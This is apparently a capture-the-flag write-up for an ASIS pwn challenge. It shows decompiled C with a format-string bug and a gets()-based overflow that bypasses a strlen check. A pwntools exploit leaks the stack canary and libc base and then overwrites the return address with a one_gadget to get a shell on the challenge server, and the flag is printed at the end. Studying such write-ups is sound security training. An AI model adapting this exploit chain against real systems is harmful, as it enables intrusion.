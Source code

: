 The challenge has all the protections:
```shell
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    FORTIFY:  Enabled
```

MAIN:
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  __int64 v3; // rbx
  int result; // eax
  __int128 v5; // [rsp+0h] [rbp-58h]
  __int128 v6; // [rsp+10h] [rbp-48h]
  __int128 v7; // [rsp+20h] [rbp-38h]
  __int128 v8; // [rsp+30h] [rbp-28h]
  unsigned __int64 v9; // [rsp+48h] [rbp-10h]
  __int64 v10; // [rsp+50h] [rbp-8h]

  v10 = v3;
  v9 = __readfsqword(0x28u);
  v5 = 0LL;
  v6 = 0LL;
  v7 = 0LL;
  v8 = 0LL;
  while ( (unsigned int)readline((char *)&v5, 64) )
  {
    __printf_chk(1LL, (__int64)&v5);
    _IO_putc(10, _bss_start);
  }
  result = 0;
  __readfsqword(0x28u);
  return result;
}
```

READLINE:
```c
size_t __fastcall readline(char *s, signed int a2)
{
  size_t result; // rax

  gets();
  result = strlen(s);
  if ( (signed int)result >= a2 )
  {
    puts("[FATAL] Buffer Overflow");
    _exit(1);
  }
  return result;
}
```

After several tests, I found some vulnerabilities:
- format string (without any direct access to the parameters)
- the input is subject to buffer overflow. Because the lenght is checked with `strlen()` (lenght until '\0' character). 
  Inserting the '\0' and adding bytes afterwards generates overflow.

Using the format string I read the canary and the main return address. 
It returns to a point in the libc function '__libc_start_main'. The libc was provided to us.
Analyzing the libc the main return address is 138135 bytes from the beginning of the libc. We can therefore calculate the libcbase a runtime. 
In the supplied libc there are 2 one gadgets.

The exploit:
- address leak and canry
- libcbase calculation
- overflow by overwriting the return address with the one gadget 

Exploit:
```python
from pwn import *

libc = ELF("./libc-2.27.so")

fms = "%p%p%p%p%p%p%p%p%p%p%p%p%p_%p_%p_%p"
one_gadget1 = 0x4f322
one_gadget2 = 0x10a38c


p = remote("69.172.229.147", 9002)
#p = process("./chall")
p.sendline(fms.encode())
print(p.recvuntil('_'))
canary = int(p.recvuntil('_').decode().replace("_", ""), 16)
p.recvuntil('_')
main242 = int(p.recvuntil('\n').decode().replace("\n", ""), 16)
print("Canary:................",hex(canary))
print("main242:...............",hex(main242))
libcbase = main242-138135   #remote libc
print("libcbase:..............",hex(libcbase))

buf = (("A"*63) + "\0" + ("B"*8)).encode()
buf += p64(canary)
buf += ("A"*8).encode()
buf += p64((libcbase+one_gadget1))
p.sendline(buf)
print(p.recvuntil('\n').decode())
p.sendline("\n".encode())
p.interactive()
```

# FLAG
`ASIS{s3cur1ty_pr0t3ct10n_1s_n07_s1lv3r_bull3t}`

